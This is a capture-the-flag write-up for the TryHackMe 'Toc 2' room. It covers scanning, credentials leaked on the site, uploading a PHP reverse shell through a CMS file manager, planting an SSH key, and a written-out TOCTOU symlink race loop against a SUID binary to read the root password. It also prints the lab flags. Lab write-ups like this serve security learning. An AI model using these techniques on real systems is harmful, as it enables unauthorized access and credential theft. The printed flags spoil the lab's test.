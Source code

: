 # Tryhackme.com Room : Toc 2
`https://tryhackme.com/room/toc2`



## Instance

```
export IP=10.10.242.180
```

## Nmap

```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 84:4e:b1:49:31:22:94:84:83:97:91:72:cb:23:33:36 (RSA)
|   256 cc:32:19:3f:f5:b9:a4:d5:ac:32:0f:6e:f0:83:35:71 (ECDSA)
|_  256 bd:d8:00:be:49:b5:15:af:bf:d5:85:f7:3a:ab:d6:48 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
| http-robots.txt: 1 disallowed entry
|_/cmsms/cmsms-2.1.6-install.php
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site Maintenance
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We find a static page on port `80` with the following text :

```
Under Construction!

Sorry for the inconvenience but management have once again asked for more than we can deliver.

The web server isn't going to be ready for the web dev team to build on for another few days. Just in case anyone around here except me wants to do anything: cmsmsuser:devpass

— Hunter
```

Let's enumerate directory with `gobuster`



Looking at `/robots.txt` we find :

```
User-agent: *
Disallow: /cmsms/cmsms-2.1.6-install.php
 
Note to self:
Tommorow, finish setting up the CMS, and that database, cmsmsdb, so the site's ready by Wednesday.    
```



We browse `/cmsms` and find that there is only the `cmsms-2.1.6-install.php` and a `README`.

When browsing `cmsms-2.1.6-install.php` we are greeted with the install process for `CMS made simple 2.1.6`



For some reason it's super slow tho... Annoyingly slow.

Anyhow, let's enable the advanced mode and proceed.



We already got the database infos :

```
Db name : cmsmsdb
user : cmsmsuser
pass: devpass
```

We do the installation process and create the user 

```
admin:adminadmin
with the email
admin@toc.thm
```

Hmm for some reason, the install didn't work. Maybe a file permission issue ?

I restarted the install but this time I disabled the `sample content` and the `email account detail` option. Maybe it's because the box doesn't have internet access so it can't retrieve sample content ?

Anyhow, we login in the admin panel at `/cmsms/admin` and we go in `content -> File manager`.

We upload a php reverse shell we can access it via `/cmsms/uploads/shell.php`

And we got a revshell as `www-data`.

We retrieve `/home/frank/user.txt` :

```
thm{63616d70657276616e206c696665}
```



## Priv Esc

We find `/home/frank/new_machine.txt` :

```
I'm gonna be switching computer after I get this web server setup done. The inventory team sent me a new Thinkpad, the password is "password". It's funny that the default password for all the work machines is something so simple...Hell I should probably change this one from it, ah well. I'm switching machines soon- it can wait.
```

So we just `su frank` and use the password `password`... oh well

We add our `ssh` pub key in `/home/frank/.ssh/authorized_keys` so that we have an easy way in but we didn't really need it since we got the password for `frank` oh well.. anyhow, let's continue.



We find a folder named `/home/frank/root_access` which contain a binary with `SUID` and the `C` code for it :

```c
#include <string.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
    int file_data; char buffer[256]; int size = 0;

    if(argc != 2) {
        printf("Binary to output the contents of credentials file \n ./readcreds [file] \n"); 
        exit(1);
    }

    if (!access(argv[1],R_OK)) {
            sleep(1);
            file_data = open(argv[1], O_RDONLY);
    } else {
            fprintf(stderr, "Cannot open %s \n", argv[1]);
            exit(1);
    }

    do {
        size = read(file_data, buffer, 256);
        write(1, buffer, size);
    }

    while(size>0);
}
```

So here `access` check if the `real UID & GID` of the calling user can read the file (`open` will allow access using the `effective ID`)



I found infos here : `https://0x00sec.org/t/how-to-pwned-nebula-level10-access-race-condition/1693`

The trick here is to create a symlink to a file that we own and constantly switch the symlink to point between the file we want to read and the file that we own :

```bash
while true; do
	ln -sf /home/frank/root_access/good_file /home/frank/root_access/to_read
	ln -sf /home/frank/root_access/root_password_backup /home/frank/root_access/to_read
done
```

This can create a race condition where `access` is called when `to_read` -> `good_file` but open is called when `to_read` -> `root_password_backup`.

We just leave this loop running in the background and run :

```
while true; do
	/home/frank/root_access/readcreds /home/frank/root_access/to_read
done
```

We get a bunch of access denied but we sometime get read access

We get the root password :

```
root:aloevera
```



After that we can `su root` and retrieve `/root/root.txt`:

```
thm{7265616c6c696665}
```



## Wrap up

* The foothold was super easy except for the part where we had to wait an eternity since the box is soo slow (Might be to make the race condition happen more often ?)
* The race condition part was interesting. 
  * Can be usefull when we have a binary that have more reading rights than the current user and the reading path is parametrable.
  * Apparently these race vulnerability are called `TOCTOU` -> `Time of Check - Time of Use` 